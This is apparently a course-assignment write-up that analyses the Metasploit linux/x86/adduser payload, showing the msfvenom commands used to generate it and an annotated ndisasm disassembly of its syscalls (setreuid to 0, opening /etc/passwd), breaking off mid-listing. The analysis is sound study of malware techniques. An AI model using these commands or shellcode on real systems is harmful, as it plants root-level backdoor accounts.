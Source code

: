 We know that for the purpose of this assignment they need to be x86 linux, so we'll start by listing all such payloads with ```msfvenom --list payloads | grep linux/x86```

All our previous tasks so far have dealt with spawning a shell of some sort, so today we will look for something different.

```
    linux/x86/adduser               Create a new user with UID 0
    linux/x86/chmod                 Runs chmod on specified file with specified mode
    linux/x86/exec                  Execute an arbitrary command

```
#### Payload 1

Let's start with ```linux/x86/adduser```, examining with ndisasm.
We list the payload options with ```msfvenom --list-options -p linux/x86/adduser```, and the result is as you would expect.

![adduser](/assets/images/SLAE_5/1.JPG)

We spin it up and generate the shellcode, piping the output to nidasm with ````msfvenom -p linux/x86/adduser USER=user PASS=pass | ndisasm -u -````

Here we can determine that 4 syscalls are being made:

```
push byte +0x46 ; syscall 70, #define __NR_setreuid
push byte +0x5  ; syscall 5, #define __NR_write
push byte +0x4  ; syscall 4, #define __NR_open
push byte +0x1  ; syscall 1, #define __NR_exit
```

Just from looking at this, we could hazard a guess that we will be opening etc/passwd and modifying it.
We confirm this be converting three strings that get pushed on the stack:

```
push dword 0x64777373 }
push dword 0x61702f2f  = dwssap//cte/ or /etc//passwd flipped
push dword 0x6374652f }
```
what we can't see is our args, so we will have to look closer at our ndisasm output

```
00000000  31C9              xor ecx,ecx
00000002  89CB              mov ebx,ecx
00000004  6A46              push byte +0x46 ; setreuid to 0
00000006  58                pop eax
00000007  CD80              int 0x80
00000009  6A05              push byte +0x5
0000000B  58                pop eax ; pop 0x5 to ecx to setup open syscall
0000000C  31C9              xor ecx,ecx
0000000E  51                push ecx ; push 0x0
0000000F  6873737764        push dword 0x64777373 ; as below
00000014  682F2F7061        push dword 0x61702f2f = dwssap//cte/ or /etc//passwd flipped
00000019  682F657463        push dword 0x6374652f ; as above
0000001E  89E3              mov ebx,esp ; store args for open
00000020  41                inc ecx ; set ecx to 1 as was zero before
00000021  B504              mov ch,0x4 ; move 4 into ch, cx (lower 16 bits of ecx) would now be 401
00000023  CD80              int 0x80
00000025  93                xchg eax,ebx
```